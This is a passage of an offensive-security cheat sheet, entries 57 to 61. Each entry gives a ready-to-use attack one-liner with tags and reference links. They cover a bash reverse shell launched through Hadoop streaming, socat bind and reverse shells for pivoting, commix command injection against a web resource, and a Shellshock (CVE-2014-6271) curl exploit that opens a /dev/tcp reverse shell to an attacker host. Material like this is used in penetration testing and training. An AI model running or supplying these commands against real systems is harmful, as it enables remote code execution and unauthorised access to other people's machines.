 php.net/manual/en/function.shell-exec.php
__________
### 57. Hadoop Command execution, of course replace the shell with whatever you want
```
./bin/hadoop jar share/hadoop/tools/lib/hadoop-streaming-2.7.3.jar -input /tmp/out/1 -output /tmp/out/NC_1 -mapper "bash -i >& /dev/tcp/[ip]/[port] 0>&1" -reducer NONE -cmdenv user.name=hdfs -cmdenv as=hdfs -verbose -mapdebug "bash -i >& /dev/tcp/[ip]/[port] 0>&1"
```
**- reverse shells**
#### References:

http://seclist.us/hadoop-attack-library-is-a-collection-of-pentest-tools-and-resources-targeting-hadoop-environments.html
__________
### 58. Socat BindShell, First on server, second on client
```
socat TCP-LISTEN:[lip],reuseaddr,fork EXEC:bash,pty,stderr,setsid,sigint,sane; socat FILE:`tty`,raw,echo=0 TCP:[rip]:[rport]
```
**- linux,pivoting,shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
### 59. Socat reverse shell, First on client, second on server
```
socat TCP-LISTEN:[lip],reuseaddr FILE:`tty`,raw,echo=0; socat TCP4:[rip]:[rport] EXEC:bash,pty,stderr,setsid,sigint,sane
```
**- linux,pivoting,reverse shells**
#### References:

https://artkond.com/2017/03/23/pivoting-guide/
__________
### 60. Commix abuse exec as per the php shells, nicer than burp repeater! 
```
/opt/commix/commix.py -u "https://[rip]:443/[resource]?[password]&cmd=1*" --force-ssl
```
**- web application,remote command shell**
#### References:

https://github.com/commixproject/commix
__________
### 61. Exploit shellshock via curl, use -k switch to force curl to bypass any SSL warnings. Replace the bash command with anything.
```
curl http://192.168.123.123/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "
```
**- shellshock,curl**
#### References:

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
__________
